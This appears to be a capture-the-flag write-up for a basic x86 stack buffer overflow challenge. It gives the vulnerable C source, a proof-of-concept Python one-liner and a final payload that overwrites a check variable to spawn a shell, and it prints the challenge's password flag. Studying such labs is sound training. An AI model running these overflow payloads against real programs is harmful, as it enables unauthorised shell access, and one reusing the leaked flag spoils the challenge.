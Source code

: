 # ELF x86 - Stack buffer overflow basic 1


Simple challenge to introduce people to classic stack-based buffer overflows, no ACE, very basic

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{

  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

Stack

| ================ Memory ================ |
| ---------------------------------------- |
| check = 0x04030201 (4)                   |
| buf (40)                                 |
POC
```bash
app-systeme-ch13@challenge02:~$ python -c "print('A' * 40 + 'BBBB')" | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[check] 0x42424242
[check] 0x42424242

You are on the right way!

```

FINAL
```bash
Bye.
app-systeme-ch13@challenge02:~$ (python -c "print('A' * 40 + '\xef\xbe\xad\xde')
" ; cat ) | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭÞ
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
whoami
app-systeme-ch13-cracked
cat .passwd
1w4ntm0r3pr0np1s
```